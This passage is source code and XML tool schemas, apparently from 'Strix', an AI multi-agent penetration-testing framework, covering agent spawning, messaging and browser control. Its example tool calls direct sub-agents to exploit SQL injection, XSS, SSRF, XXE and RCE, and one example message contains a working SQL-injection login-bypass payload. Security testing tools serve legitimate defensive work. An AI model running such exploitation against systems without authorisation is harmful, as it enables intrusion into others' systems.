        from strix.llm.config import LLMConfig

        parent_agent = _agent_instances.get(parent_id)

        timeout = None
        scan_mode = "deep"
        interactive = False
        if parent_agent and hasattr(parent_agent, "llm_config"):
            if hasattr(parent_agent.llm_config, "timeout"):
                timeout = parent_agent.llm_config.timeout
            if hasattr(parent_agent.llm_config, "scan_mode"):
                scan_mode = parent_agent.llm_config.scan_mode
            interactive = getattr(parent_agent.llm_config, "interactive", False)

        state = AgentState(
            task=task,
            agent_name=name,
            parent_id=parent_id,
            max_iterations=300,
            waiting_timeout=300 if interactive else 600,
        )

        llm_config = LLMConfig(
            skills=skill_list,
            timeout=timeout,
            scan_mode=scan_mode,
            interactive=interactive,
        )

        agent_config = {
            "llm_config": llm_config,
            "state": state,
        }

        agent = StrixAgent(agent_config)

        inherited_messages = []
        if inherit_context:
            inherited_messages = agent_state.get_conversation_history()

        _agent_instances[state.agent_id] = agent

        thread = threading.Thread(
            target=_run_agent_in_thread,
            args=(agent, state, inherited_messages),
            daemon=True,
            name=f"Agent-{name}-{state.agent_id}",
        )
        thread.start()
        _running_agents[state.agent_id] = thread

    except Exception as e:  # noqa: BLE001
        return {"success": False, "error": f"Failed to create agent: {e}", "agent_id": None}
    else:
        return {
            "success": True,
            "agent_id": state.agent_id,
            "message": f"Agent '{name}' created and started asynchronously",
            "agent_info": {
                "id": state.agent_id,
                "name": name,
                "status": "running",
                "parent_id": parent_id,
            },
        }


@register_tool(sandbox_execution=False)
def send_message_to_agent(
    agent_state: Any,
    target_agent_id: str,
    message: str,
    message_type: Literal["query", "instruction", "information"] = "information",
    priority: Literal["low", "normal", "high", "urgent"] = "normal",
) -> dict[str, Any]:
    try:
        if target_agent_id not in _agent_graph["nodes"]:
            return {
                "success": False,
                "error": f"Target agent '{target_agent_id}' not found in graph",
                "message_id": None,
            }

        sender_id = agent_state.agent_id

        from uuid import uuid4

        message_id = f"msg_{uuid4().hex[:8]}"
        message_data = {
            "id": message_id,
            "from": sender_id,
            "to": target_agent_id,
            "content": message,
            "message_type": message_type,
            "priority": priority,
            "timestamp": datetime.now(UTC).isoformat(),
            "delivered": False,
            "read": False,
        }

        if target_agent_id not in _agent_messages:
            _agent_messages[target_agent_id] = []

        _agent_messages[target_agent_id].append(message_data)

        _agent_graph["edges"].append(
            {
                "from": sender_id,
                "to": target_agent_id,
                "type": "message",
                "message_id": message_id,
                "message_type": message_type,
                "priority": priority,
                "created_at": datetime.now(UTC).isoformat(),
            }
        )

        message_data["delivered"] = True

        target_name = _agent_graph["nodes"][target_agent_id]["name"]
        sender_name = _agent_graph["nodes"][sender_id]["name"]

        return {
            "success": True,
            "message_id": message_id,
            "message": f"Message sent from '{sender_name}' to '{target_name}'",
            "delivery_status": "delivered",
            "target_agent": {
                "id": target_agent_id,
                "name": target_name,
                "status": _agent_graph["nodes"][target_agent_id]["status"],
            },
        }

    except Exception as e:  # noqa: BLE001
        return {"success": False, "error": f"Failed to send message: {e}", "message_id": None}


@register_tool(sandbox_execution=False)
def agent_finish(
    agent_state: Any,
    result_summary: str,
    findings: list[str] | None = None,
    success: bool = True,
    report_to_parent: bool = True,
    final_recommendations: list[str] | None = None,
) -> dict[str, Any]:
    try:
        if not hasattr(agent_state, "parent_id") or agent_state.parent_id is None:
            return {
                "agent_completed": False,
                "error": (
                    "This tool can only be used by subagents. "
                    "Root/main agents must use finish_scan instead."
                ),
                "parent_notified": False,
            }

        agent_id = agent_state.agent_id

        if agent_id not in _agent_graph["nodes"]:
            return {"agent_completed": False, "error": "Current agent not found in graph"}

        agent_node = _agent_graph["nodes"][agent_id]

        agent_node["status"] = "finished" if success else "failed"
        agent_node["finished_at"] = datetime.now(UTC).isoformat()
        agent_node["result"] = {
            "summary": result_summary,
            "findings": findings or [],
            "success": success,
            "recommendations": final_recommendations or [],
        }

        parent_notified = False

        if report_to_parent and agent_node["parent_id"]:
            parent_id = agent_node["parent_id"]

            if parent_id in _agent_graph["nodes"]:
                findings_xml = "\n".join(
                    f"        <finding>{finding}</finding>" for finding in (findings or [])
                )
                recommendations_xml = "\n".join(
                    f"        <recommendation>{rec}</recommendation>"
                    for rec in (final_recommendations or [])
                )

                report_message = f"""<agent_completion_report>
    <agent_info>
        <agent_name>{agent_node["name"]}</agent_name>
        <agent_id>{agent_id}</agent_id>
        <task>{agent_node["task"]}</task>
        <status>{"SUCCESS" if success else "FAILED"}</status>
        <completion_time>{agent_node["finished_at"]}</completion_time>
    </agent_info>
    <results>
        <summary>{result_summary}</summary>
        <findings>
{findings_xml}
        </findings>
        <recommendations>
{recommendations_xml}
        </recommendations>
    </results>
</agent_completion_report>"""

                if parent_id not in _agent_messages:
                    _agent_messages[parent_id] = []

                from uuid import uuid4

                _agent_messages[parent_id].append(
                    {
                        "id": f"report_{uuid4().hex[:8]}",
                        "from": agent_id,
                        "to": parent_id,
                        "content": report_message,
                        "message_type": "information",
                        "priority": "high",
                        "timestamp": datetime.now(UTC).isoformat(),
                        "delivered": True,
                        "read": False,
                    }
                )

                parent_notified = True

        _running_agents.pop(agent_id, None)

        return {
            "agent_completed": True,
            "parent_notified": parent_notified,
            "completion_summary": {
                "agent_id": agent_id,
                "agent_name": agent_node["name"],
                "task": agent_node["task"],
                "success": success,
                "findings_count": len(findings or []),
                "has_recommendations": bool(final_recommendations),
                "finished_at": agent_node["finished_at"],
            },
        }

    except Exception as e:  # noqa: BLE001
        return {
            "agent_completed": False,
            "error": f"Failed to complete agent: {e}",
            "parent_notified": False,
        }


def stop_agent(agent_id: str) -> dict[str, Any]:
    try:
        if agent_id not in _agent_graph["nodes"]:
            return {
                "success": False,
                "error": f"Agent '{agent_id}' not found in graph",
                "agent_id": agent_id,
            }

        agent_node = _agent_graph["nodes"][agent_id]

        if agent_node["status"] in ["completed", "error", "failed", "stopped"]:
            return {
                "success": True,
                "message": f"Agent '{agent_node['name']}' was already stopped",
                "agent_id": agent_id,
                "previous_status": agent_node["status"],
            }

        if agent_id in _agent_states:
            agent_state = _agent_states[agent_id]
            agent_state.request_stop()

        if agent_id in _agent_instances:
            agent_instance = _agent_instances[agent_id]
            if hasattr(agent_instance, "state"):
                agent_instance.state.request_stop()
            if hasattr(agent_instance, "cancel_current_execution"):
                agent_instance.cancel_current_execution()

        agent_node["status"] = "stopping"

        try:
            from strix.telemetry.tracer import get_global_tracer

            tracer = get_global_tracer()
            if tracer:
                tracer.update_agent_status(agent_id, "stopping")
        except (ImportError, AttributeError):
            pass

        agent_node["result"] = {
            "summary": "Agent stop requested by user",
            "success": False,
            "stopped_by_user": True,
        }

        return {
            "success": True,
            "message": f"Stop request sent to agent '{agent_node['name']}'",
            "agent_id": agent_id,
            "agent_name": agent_node["name"],
            "note": "Agent will stop gracefully after current iteration",
        }

    except Exception as e:  # noqa: BLE001
        return {
            "success": False,
            "error": f"Failed to stop agent: {e}",
            "agent_id": agent_id,
        }


def send_user_message_to_agent(agent_id: str, message: str) -> dict[str, Any]:
    try:
        if agent_id not in _agent_graph["nodes"]:
            return {
                "success": False,
                "error": f"Agent '{agent_id}' not found in graph",
                "agent_id": agent_id,
            }

        agent_node = _agent_graph["nodes"][agent_id]

        if agent_id not in _agent_messages:
            _agent_messages[agent_id] = []

        from uuid import uuid4

        message_data = {
            "id": f"user_msg_{uuid4().hex[:8]}",
            "from": "user",
            "to": agent_id,
            "content": message,
            "message_type": "instruction",
            "priority": "high",
            "timestamp": datetime.now(UTC).isoformat(),
            "delivered": True,
            "read": False,
        }

        _agent_messages[agent_id].append(message_data)

        return {
            "success": True,
            "message": f"Message sent to agent '{agent_node['name']}'",
            "agent_id": agent_id,
            "agent_name": agent_node["name"],
        }

    except Exception as e:  # noqa: BLE001
        return {
            "success": False,
            "error": f"Failed to send message to agent: {e}",
            "agent_id": agent_id,
        }


@register_tool(sandbox_execution=False)
def wait_for_message(
    agent_state: Any,
    reason: str = "Waiting for messages from other agents",
) -> dict[str, Any]:
    try:
        agent_id = agent_state.agent_id
        agent_name = agent_state.agent_name

        agent_state.enter_waiting_state()

        if agent_id in _agent_graph["nodes"]:
            _agent_graph["nodes"][agent_id]["status"] = "waiting"
            _agent_graph["nodes"][agent_id]["waiting_reason"] = reason

        try:
            from strix.telemetry.tracer import get_global_tracer

            tracer = get_global_tracer()
            if tracer:
                tracer.update_agent_status(agent_id, "waiting")
        except (ImportError, AttributeError):
            pass

    except Exception as e:  # noqa: BLE001
        return {"success": False, "error": f"Failed to enter waiting state: {e}", "status": "error"}
    else:
        return {
            "success": True,
            "status": "waiting",
            "message": f"Agent '{agent_name}' is now waiting for messages",
            "reason": reason,
            "agent_info": {
                "id": agent_id,
                "name": agent_name,
                "status": "waiting",
            },
            "resume_conditions": [
                "Message from another agent",
                "Message from user",
                "Direct communication",
                "Waiting timeout reached",
            ],
        }
```

## File: `strix/tools/agents_graph/agents_graph_actions_schema.xml`
```xml
<tools>
  <tool name="agent_finish">
    <description>Mark a subagent's task as completed and optionally report results to parent agent.

IMPORTANT: This tool can ONLY be used by subagents (agents with a parent).
Root/main agents must use finish_scan instead.

This tool should be called when a subagent completes its assigned subtask to:
- Mark the subagent's task as completed
- Report findings back to the parent agent

Use this tool when:
- You are a subagent working on a specific subtask
- You have completed your assigned task
- You want to report your findings to the parent agent
- You are ready to terminate this subagent's execution</description>
    <details>This replaces the previous finish_scan tool and handles both sub-agent completion
  and main agent completion. When a sub-agent finishes, it can report its findings
  back to the parent agent for coordination.</details>
    <parameters>
      <parameter name="result_summary" type="string" required="true">
        <description>Summary of what the agent accomplished and discovered</description>
      </parameter>
      <parameter name="findings" type="string" required="false">
        <description>List of specific findings, vulnerabilities, or discoveries</description>
      </parameter>
      <parameter name="success" type="boolean" required="false">
        <description>Whether the agent's task completed successfully</description>
      </parameter>
      <parameter name="report_to_parent" type="boolean" required="false">
        <description>Whether to send results back to the parent agent</description>
      </parameter>
      <parameter name="final_recommendations" type="string" required="false">
        <description>Recommendations for next steps or follow-up actions</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - agent_completed: Whether the agent was marked as completed - parent_notified: Whether parent was notified (if applicable) - completion_summary: Summary of completion status</description>
    </returns>
    <examples>
  # Sub-agent completing subdomain enumeration task
  <function=agent_finish>
  <parameter=result_summary>Completed comprehensive subdomain enumeration for target.com.
              Discovered 47 subdomains including several interesting ones with admin/dev
              in the name. Found 3 subdomains with exposed services on non-standard
              ports.</parameter>
  <parameter=findings>["admin.target.com - exposed phpMyAdmin",
                "dev-api.target.com - unauth API endpoints",
                "staging.target.com - directory listing enabled",
                "mail.target.com - POP3/IMAP services"]</parameter>
  <parameter=success>true</parameter>
  <parameter=report_to_parent>true</parameter>
  <parameter=final_recommendations>["Prioritize testing admin.target.com for default creds",
                             "Enumerate dev-api.target.com API endpoints",
                             "Check staging.target.com for sensitive files"]</parameter>
  </function>
    </examples>
  </tool>
  <tool name="create_agent">
    <description>Create and spawn a new agent to handle a specific subtask.

Only create a new agent if no existing agent is handling the specific task.</description>
    <details>The new agent inherits the parent's conversation history and context up to the point
  of creation, then continues with its assigned subtask. This enables decomposition
  of complex penetration testing tasks into specialized sub-agents.

  The agent runs asynchronously and independently, allowing the parent to continue
  immediately while the new agent executes its task in the background.

  If you as a parent agent don't absolutely have anything to do while your subagents are running, you can use wait_for_message tool. The subagent will continue to run in the background, and update you when it's done.
  </details>
    <parameters>
      <parameter name="task" type="string" required="true">
        <description>The specific task/objective for the new agent to accomplish</description>
      </parameter>
      <parameter name="name" type="string" required="true">
        <description>Human-readable name for the agent (for tracking purposes)</description>
      </parameter>
      <parameter name="inherit_context" type="boolean" required="false">
        <description>Whether the new agent should inherit parent's conversation history and context</description>
      </parameter>
      <parameter name="skills" type="string" required="false">
        <description>Comma-separated list of skills to use for the agent (MAXIMUM 5 skills allowed). Most agents should have at least one skill in order to be useful. Agents should be highly specialized - use 1-3 related skills; up to 5 for complex contexts. {{DYNAMIC_SKILLS_DESCRIPTION}}</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - agent_id: Unique identifier for the created agent - success: Whether the agent was created successfully - message: Status message - agent_info: Details about the created agent</description>
    </returns>
    <examples>
  # After confirming no SQL testing agent exists, create agent for vulnerability validation
  <function=create_agent>
  <parameter=task>Validate and exploit the suspected SQL injection vulnerability found in
              the login form. Confirm exploitability and document proof of concept.</parameter>
  <parameter=name>SQLi Validator</parameter>
  <parameter=skills>sql_injection</parameter>
  </function>

  <function=create_agent>
  <parameter=task>Test authentication mechanisms, JWT implementation, and session management
              for security vulnerabilities and bypass techniques.</parameter>
  <parameter=name>Auth Specialist</parameter>
  <parameter=skills>authentication_jwt, business_logic</parameter>
  </function>

  # Example of single-skill specialization (most focused)
  <function=create_agent>
  <parameter=task>Perform comprehensive XSS testing including reflected, stored, and DOM-based
              variants across all identified input points.</parameter>
  <parameter=name>XSS Specialist</parameter>
  <parameter=skills>xss</parameter>
  </function>

  # Example of up to 5 related skills (borderline acceptable)
  <function=create_agent>
  <parameter=task>Test for server-side vulnerabilities including SSRF, XXE, and potential
              RCE vectors in file upload and XML processing endpoints.</parameter>
  <parameter=name>Server-Side Attack Specialist</parameter>
  <parameter=skills>ssrf, xxe, rce</parameter>
  </function>
    </examples>
  </tool>
  <tool name="send_message_to_agent">
    <description>Send a message to another agent in the graph for coordination and communication.</description>
    <details>This enables agents to communicate with each other during execution, but should be used only when essential:
  - Sharing discovered information or findings
  - Asking questions or requesting assistance
  - Providing instructions or coordination
  - Reporting status or results

Best practices:
- Avoid routine status updates; batch non-urgent information
- Prefer parent/child completion flows (agent_finish)
- Do not message when the context is already known</details>
    <parameters>
      <parameter name="target_agent_id" type="string" required="true">
        <description>ID of the agent to send the message to</description>
      </parameter>
      <parameter name="message" type="string" required="true">
        <description>The message content to send</description>
      </parameter>
      <parameter name="message_type" type="string" required="false">
        <description>Type of message being sent: - "query": Question requiring a response - "instruction": Command or directive for the target agent - "information": Informational message (findings, status, etc.)</description>
      </parameter>
      <parameter name="priority" type="string" required="false">
        <description>Priority level of the message</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - success: Whether the message was sent successfully - message_id: Unique identifier for the message - delivery_status: Status of message delivery</description>
    </returns>
    <examples>
  # Share discovered vulnerability information
  <function=send_message_to_agent>
  <parameter=target_agent_id>agent_abc123</parameter>
  <parameter=message>Found SQL injection vulnerability in /login.php parameter 'username'.
              Payload: admin' OR '1'='1' -- successfully bypassed authentication.
              You should focus your testing on the authenticated areas of the
              application.</parameter>
  <parameter=message_type>information</parameter>
  <parameter=priority>high</parameter>
  </function>

  # Request assistance from specialist agent
  <function=send_message_to_agent>
  <parameter=target_agent_id>agent_def456</parameter>
  <parameter=message>I've identified what appears to be a custom encryption implementation
              in the API responses. Can you analyze the cryptographic strength and look
              for potential weaknesses?</parameter>
  <parameter=message_type>query</parameter>
  <parameter=priority>normal</parameter>
  </function>
    </examples>
  </tool>
  <tool name="view_agent_graph">
    <description>View the current agent graph showing all agents, their relationships, and status.</description>
    <details>This provides a comprehensive overview of the multi-agent system including:
  - All agent nodes with their tasks, status, and metadata
  - Parent-child relationships between agents
  - Message communication patterns
  - Current execution state</details>
    <returns type="Dict[str, Any]">
      <description>Response containing: - graph_structure: Human-readable representation of the agent graph - summary: High-level statistics about the graph</description>
    </returns>
  </tool>
  <tool name="wait_for_message">
    <description>Pause the agent loop indefinitely until receiving a message from another agent.

This tool puts the agent into a waiting state where it remains idle until it receives any form of communication. The agent will automatically resume execution when a message arrives.

IMPORTANT: This tool causes the agent to stop all activity until a message is received. Use it when you need to:
- Wait for subagent completion reports
- Coordinate with other agents before proceeding
- Synchronize multi-agent workflows

NOTE: If you are waiting for an agent that is NOT your subagent, you first tell it to message you with updates before waiting for it. Otherwise, you will wait forever!
</description>
    <details>When this tool is called, the agent (you) enters a waiting state and will not continue execution until:
  - Another agent sends a message via send_message_to_agent
  - Any other form of inter-agent communication occurs
  - Waiting timeout is reached

  The agent will automatically resume from where it left off once a message is received.
  This is particularly useful for parent agents waiting for subagent results or for coordination points in multi-agent workflows.
  NOTE: If you finished your task, and you do NOT have any child agents running, you should NEVER use this tool, and just call finish tool instead.
  </details>
    <parameters>
      <parameter name="reason" type="string" required="false">
        <description>Explanation for why the agent is waiting (for logging and monitoring purposes)</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - success: Whether the agent successfully entered waiting state - status: Current agent status ("waiting") - reason: The reason for waiting - agent_info: Details about the waiting agent - resume_conditions: List of conditions that will resume the agent</description>
    </returns>
    <examples>
  # Wait for subagents to complete their tasks
  <function=wait_for_message>
  <parameter=reason>Waiting for subdomain enumeration and port scanning subagents to complete their tasks and report findings</parameter>
  </function>

  # Coordinate with other agents
  <function=wait_for_message>
  <parameter=reason>Waiting for vulnerability assessment agent to share discovered attack vectors before proceeding with exploitation phase</parameter>
  </function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/agents_graph/__init__.py`
```python
from .agents_graph_actions import (
    agent_finish,
    create_agent,
    send_message_to_agent,
    view_agent_graph,
    wait_for_message,
)


__all__ = [
    "agent_finish",
    "create_agent",
    "send_message_to_agent",
    "view_agent_graph",
    "wait_for_message",
]
```

## File: `strix/tools/browser/browser_actions.py`
```python
from typing import TYPE_CHECKING, Any, Literal, NoReturn

from strix.tools.registry import register_tool


if TYPE_CHECKING:
    from .tab_manager import BrowserTabManager


BrowserAction = Literal[
    "launch",
    "goto",
    "click",
    "type",
    "scroll_down",
    "scroll_up",
    "back",
    "forward",
    "new_tab",
    "switch_tab",
    "close_tab",
    "wait",
    "execute_js",
    "double_click",
    "hover",
    "press_key",
    "save_pdf",
    "get_console_logs",
    "view_source",
    "close",
    "list_tabs",
]


def _validate_url(action_name: str, url: str | None) -> None:
    if not url:
        raise ValueError(f"url parameter is required for {action_name} action")


def _validate_coordinate(action_name: str, coordinate: str | None) -> None:
    if not coordinate:
        raise ValueError(f"coordinate parameter is required for {action_name} action")


def _validate_text(action_name: str, text: str | None) -> None:
    if not text:
        raise ValueError(f"text parameter is required for {action_name} action")


def _validate_tab_id(action_name: str, tab_id: str | None) -> None:
    if not tab_id:
        raise ValueError(f"tab_id parameter is required for {action_name} action")


def _validate_js_code(action_name: str, js_code: str | None) -> None:
    if not js_code:
        raise ValueError(f"js_code parameter is required for {action_name} action")


def _validate_duration(action_name: str, duration: float | None) -> None:
    if duration is None:
        raise ValueError(f"duration parameter is required for {action_name} action")


def _validate_key(action_name: str, key: str | None) -> None:
    if not key:
        raise ValueError(f"key parameter is required for {action_name} action")


def _validate_file_path(action_name: str, file_path: str | None) -> None:
    if not file_path:
        raise ValueError(f"file_path parameter is required for {action_name} action")


def _handle_navigation_actions(
    manager: "BrowserTabManager",
    action: str,
    url: str | None = None,
    tab_id: str | None = None,
) -> dict[str, Any]:
    if action == "launch":
        return manager.launch_browser(url)
    if action == "goto":
        _validate_url(action, url)
        assert url is not None
        return manager.goto_url(url, tab_id)
    if action == "back":
        return manager.back(tab_id)
    if action == "forward":
        return manager.forward(tab_id)
    raise ValueError(f"Unknown navigation action: {action}")


def _handle_interaction_actions(
    manager: "BrowserTabManager",
    action: str,
    coordinate: str | None = None,
    text: str | None = None,
    key: str | None = None,
    tab_id: str | None = None,
) -> dict[str, Any]:
    if action in {"click", "double_click", "hover"}:
        _validate_coordinate(action, coordinate)
        assert coordinate is not None
        action_map = {
            "click": manager.click,
            "double_click": manager.double_click,
            "hover": manager.hover,
        }
        return action_map[action](coordinate, tab_id)

    if action in {"scroll_down", "scroll_up"}:
        direction = "down" if action == "scroll_down" else "up"
        return manager.scroll(direction, tab_id)

    if action == "type":
        _validate_text(action, text)
        assert text is not None
        return manager.type_text(text, tab_id)
    if action == "press_key":
        _validate_key(action, key)
        assert key is not None
        return manager.press_key(key, tab_id)

    raise ValueError(f"Unknown interaction action: {action}")


def _raise_unknown_action(action: str) -> NoReturn:
    raise ValueError(f"Unknown action: {action}")


def _handle_tab_actions(
    manager: "BrowserTabManager",
    action: str,
    url: str | None = None,
    tab_id: str | None = None,
) -> dict[str, Any]:
    if action == "new_tab":
        return manager.new_tab(url)
    if action == "switch_tab":
        _validate_tab_id(action, tab_id)
        assert tab_id is not None
        return manager.switch_tab(tab_id)
    if action == "close_tab":
        _validate_tab_id(action, tab_id)
        assert tab_id is not None
        return manager.close_tab(tab_id)
    if action == "list_tabs":
        return manager.list_tabs()
    raise ValueError(f"Unknown tab action: {action}")


def _handle_utility_actions(
    manager: "BrowserTabManager",
    action: str,
    duration: float | None = None,
    js_code: str | None = None,
    file_path: str | None = None,
    tab_id: str | None = None,
    clear: bool = False,
) -> dict[str, Any]:
    if action == "wait":
        _validate_duration(action, duration)
        assert duration is not None
        return manager.wait_browser(duration, tab_id)
    if action == "execute_js":
        _validate_js_code(action, js_code)
        assert js_code is not None
        return manager.execute_js(js_code, tab_id)
    if action == "save_pdf":
        _validate_file_path(action, file_path)
        assert file_path is not None
        return manager.save_pdf(file_path, tab_id)
    if action == "get_console_logs":
        return manager.get_console_logs(tab_id, clear)
    if action == "view_source":
        return manager.view_source(tab_id)
    if action == "close":
        return manager.close_browser()
    raise ValueError(f"Unknown utility action: {action}")


@register_tool
def browser_action(
    action: BrowserAction,
    url: str | None = None,
    coordinate: str | None = None,
    text: str | None = None,
    tab_id: str | None = None,
    js_code: str | None = None,
    duration: float | None = None,
    key: str | None = None,
    file_path: str | None = None,
    clear: bool = False,
) -> dict[str, Any]:
    from .tab_manager import get_browser_tab_manager

    manager = get_browser_tab_manager()

    try:
        navigation_actions = {"launch", "goto", "back", "forward"}
        interaction_actions = {
            "click",
            "type",
            "double_click",
            "hover",
            "press_key",
            "scroll_down",
            "scroll_up",
        }
        tab_actions = {"new_tab", "switch_tab", "close_tab", "list_tabs"}
        utility_actions = {
            "wait",
            "execute_js",
            "save_pdf",
            "get_console_logs",
            "view_source",
            "close",
        }

        if action in navigation_actions:
            return _handle_navigation_actions(manager, action, url, tab_id)
        if action in interaction_actions:
            return _handle_interaction_actions(manager, action, coordinate, text, key, tab_id)
        if action in tab_actions:
            return _handle_tab_actions(manager, action, url, tab_id)
        if action in utility_actions:
            return _handle_utility_actions(
                manager, action, duration, js_code, file_path, tab_id, clear
            )

        _raise_unknown_action(action)

    except (ValueError, RuntimeError) as e:
        return {
            "error": str(e),
            "tab_id": tab_id,
            "screenshot": "",
            "is_running": False,
        }
```

## File: `strix/tools/browser/browser_actions_schema.xml`
```xml
<tools>
  <tool name="browser_action">
    <description>Perform browser actions using a Playwright-controlled browser with multiple tabs.
  The browser is PERSISTENT and remains active until explicitly closed, allowing for
  multi-step workflows and long-running processes across multiple tabs.</description>
    <parameters>
      <parameter name="action" type="string" required="true">
      </parameter>
      <parameter name="url" type="string" required="false">
        <description>Required for 'launch', 'goto', and optionally for 'new_tab' actions. The URL to launch the browser at, navigate to, or load in new tab. Must include appropriate protocol (e.g., http://, https://, file://).</description>
      </parameter>
      <parameter name="coordinate" type="string" required="false">
        <description>Required for 'click', 'double_click', and 'hover' actions. Format: "x,y" (e.g., "432,321"). Coordinates should target the center of elements (buttons, links, etc.). Must be within the browser viewport resolution. Be very careful to calculate the coordinates correctly based on the previous screenshot.</description>
      </parameter>
      <parameter name="text" type="string" required="false">
        <description>Required for 'type' action. The text to type in the field.</description>
      </parameter>
      <parameter name="tab_id" type="string" required="false">
        <description>Required for 'switch_tab' and 'close_tab' actions. Optional for other actions to specify which tab to operate on. The ID of the tab to operate on. The first tab created during 'launch' has ID "tab_1". If not provided, actions will operate on the currently active tab.</description>
      </parameter>
      <parameter name="js_code" type="string" required="false">
        <description>Required for 'execute_js' action. JavaScript code to execute in the page context. The code runs in the context of the current page and has access to the DOM and all page-defined variables and functions. The last evaluated expression's value is returned in the response.</description>
      </parameter>
      <parameter name="duration" type="string" required="false">
        <description>Required for 'wait' action. Number of seconds to pause execution. Can be fractional (e.g., 0.5 for half a second).</description>
      </parameter>
      <parameter name="key" type="string" required="false">
        <description>Required for 'press_key' action. The key to press. Valid values include: - Single characters: 'a'-'z', 'A'-'Z', '0'-'9' - Special keys: 'Enter', 'Escape', 'ArrowLeft', 'ArrowRight', etc. - Modifier keys: 'Shift', 'Control', 'Alt', 'Meta' - Function keys: 'F1'-'F12'</description>
      </parameter>
      <parameter name="file_path" type="string" required="false">
        <description>Required for 'save_pdf' action. The file path where to save the PDF.</description>
      </parameter>
      <parameter name="clear" type="boolean" required="false">
        <description>For 'get_console_logs' action: whether to clear console logs after retrieving them. Default is False (keep logs).</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - screenshot: Base64 encoded PNG of the current page state - url: Current page URL - title: Current page title - viewport: Current browser viewport dimensions - tab_id: ID of the current active tab - all_tabs: Dict of all open tab IDs and their URLs - message: Status message about the action performed - js_result: Result of JavaScript execution (for execute_js action) - pdf_saved: File path of saved PDF (for save_pdf action) - console_logs: Array of console messages (for get_console_logs action)   Limited to 50KB total and 200 most recent logs. Individual messages truncated at 1KB. - page_source: HTML source code (for view_source action)   Large pages are truncated to 100KB (keeping beginning and end sections).</description>
    </returns>
    <notes>
  Important usage rules:
  1. PERSISTENCE: The browser remains active and maintains its state until
     explicitly closed with the 'close' action. This allows for multi-step workflows
     across multiple tool calls and tabs.
  2. Browser interaction MUST start with 'launch' and end with 'close'.
  3. Only one action can be performed per call.
  4. To visit a new URL not reachable from current page, either:
     - Use 'goto' action
     - Open a new tab with the URL
     - Close browser and relaunch
  5. Click coordinates must be derived from the most recent screenshot.
  6. You MUST click on the center of the element, not the edge. You MUST calculate
     the coordinates correctly based on the previous screenshot, otherwise the click
     will fail. After clicking, check the new screenshot to verify the click was
     successful.
  7. Tab management:
     - First tab from 'launch' is "tab_1"
     - New tabs are numbered sequentially ("tab_2", "tab_3", etc.)
     - Must have at least one tab open at all times
     - Actions affect the currently active tab unless tab_id is specified
  8. JavaScript execution (following Playwright evaluation patterns):
     - Code runs in the browser page context, not the tool context
     - Has access to DOM (document, window, etc.) and page variables/functions
     - The LAST EVALUATED EXPRESSION is automatically returned - no return statement needed
     - For simple values: document.title (returns the title)
     - For objects: {title: document.title, url: location.href} (returns the object)
     - For async operations: Use await and the promise result will be returned
     - AVOID explicit return statements - they can break evaluation
     - object literals must be wrapped in paranthesis when they are the final expression
     - Variables from tool context are NOT available - pass data as parameters if needed
     - Examples of correct patterns:
       * Single value: document.querySelectorAll('img').length
       * Object result: {images: document.images.length, links: document.links.length}
       * Async operation: await fetch(location.href).then(r => r.status)
       * DOM manipulation: document.body.style.backgroundColor = 'red'; 'background changed'

  9. Wait action:
     - Time is specified in seconds
     - Can be used to wait for page loads, animations, etc.
     - Can be fractional (e.g., 0.5 seconds)
     - Screenshot is captured after the wait
  10. The browser can operate concurrently with other tools. You may invoke
      terminal, python, or other tools (in separate assistant messages) while maintaining
      the active browser session, enabling sophisticated multi-tool workflows.
  11. Keyboard actions:
      - Use press_key for individual key presses
      - Use type for typing regular text
      - Some keys have special names based on Playwright's key documentation
  12. All code in the js_code parameter is executed as-is - there's no need to
      escape special characters or worry about formatting. Just write your JavaScript
      code normally. It can be single line or multi-line.
  13. For form filling, click on the field first, then use 'type' to enter text.
  14. The browser runs in headless mode using Chrome engine for security and performance.
  15. RESOURCE MANAGEMENT:
      - ALWAYS close tabs you no longer need using 'close_tab' action.
      - ALWAYS close the browser with 'close' action when you have completely finished
        all browser-related tasks. Do not leave the browser running if you're done with it.
      - If you opened multiple tabs, close them as soon as you've extracted the needed
        information from each one.
    </notes>
    <examples>
  # Launch browser at URL (creates tab_1)
  <function=browser_action>
  <parameter=action>launch</parameter>
  <parameter=url>https://example.com</parameter>
  </function>

  # Navigate to different URL
  <function=browser_action>
  <parameter=action>goto</parameter>
  <parameter=url>https://github.com</parameter>
  </function>

  # Open new tab with different URL
  <function=browser_action>
  <parameter=action>new_tab</parameter>
  <parameter=url>https://another-site.com</parameter>
  </function>

  # Wait for page load
  <function=browser_action>
  <parameter=action>wait</parameter>
  <parameter=duration>2.5</parameter>
  </function>

  # Click login button at coordinates from screenshot
  <function=browser_action>
  <parameter=action>click</parameter>
  <parameter=coordinate>450,300</parameter>
  </function>

  # Click username field and type
  <function=browser_action>
  <parameter=action>click</parameter>
  <parameter=coordinate>400,200</parameter>
  </function>

  <function=browser_action>
  <parameter=action>type</parameter>
  <parameter=text>user@example.com</parameter>
  </function>

  # Click password field and type
  <function=browser_action>
  <parameter=action>click</parameter>
  <parameter=coordinate>400,250</parameter>
  </function>

  <function=browser_action>
  <parameter=action>type</parameter>
  <parameter=text>mypassword123</parameter>
  </function>

  # Press Enter key
  <function=browser_action>
  <parameter=action>press_key</parameter>
  <parameter=key>Enter</parameter>
  </function>

  # Execute JavaScript to get page stats (correct pattern - no return statement)
  <function=browser_action>
  <parameter=action>execute_js</parameter>
  <parameter=js_code>const images = document.querySelectorAll('img');
const links = document.querySelectorAll('a');
{
    images: images.length,
    links: links.length,
    title: document.title
}</parameter>
  </function>

  # Scroll down
  <function=browser_action>
  <parameter=action>scroll_down</parameter>
  </function>

  # Get console logs
  <function=browser_action>
  <parameter=action>get_console_logs</parameter>
  </function>

  # View page source
  <function=browser_action>
  <parameter=action>view_source</parameter>
  </function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/browser/browser_instance.py`
```python
import asyncio
import base64
import contextlib
import logging
import threading
from pathlib import Path
from typing import Any, cast

from playwright.async_api import Browser, BrowserContext, Page, Playwright, async_playwright


logger = logging.getLogger(__name__)

MAX_PAGE_SOURCE_LENGTH = 20_000
MAX_CONSOLE_LOG_LENGTH = 30_000
MAX_INDIVIDUAL_LOG_LENGTH = 1_000
